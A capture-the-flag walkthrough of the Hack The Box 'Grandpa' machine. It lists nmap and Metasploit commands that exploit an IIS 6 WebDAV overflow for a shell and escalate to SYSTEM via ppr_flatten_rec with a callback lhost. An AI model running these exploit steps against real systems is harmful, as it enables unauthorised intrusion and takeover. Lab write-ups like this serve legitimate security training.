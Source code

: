 # Hack the box - Grandpa

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.14</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Apr 17</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.14
```

![Nmap results](./nmap.png)

There ISS 6 web server running on this machine.

## Web exploration

When we go to index page, we can identify that there is ISS web server running.

![Index page](index_page.png)

## Exploitation

Since this is old machine IIS exploit could be on metasploit

```
msfconsole
search iis
```

![Metasploit search](vuln_search_metasploit.png)

Comparing previous nmap scan we quickly notify webdav overflow:

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.14
run
```

![Exploitation](exploitation.png)

We got a shell access.

## Privilege escalation

When we try to identify user this happens:

![Get user fail](whoami_fail.png)

We can migrate to other process:

```
ps
migrate 1008
```

![Process migration](ps.png)

Time to explore potential privilege escalation exploits:

```
background
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![Privilege escalation scan](priv_esc.png)

Machine is potentialy vulnerable to many exploits. Let's try last one:

```
use exploit/windows/local/ppr_flatten_rec
set session 1
set lhost 10.10.x.x
run
```

![Privilege escalation](priv_esc.png)

We are the system user!

## Capturing the flags

Time to finish this challenge:

![Flags capture](flags_capture.png)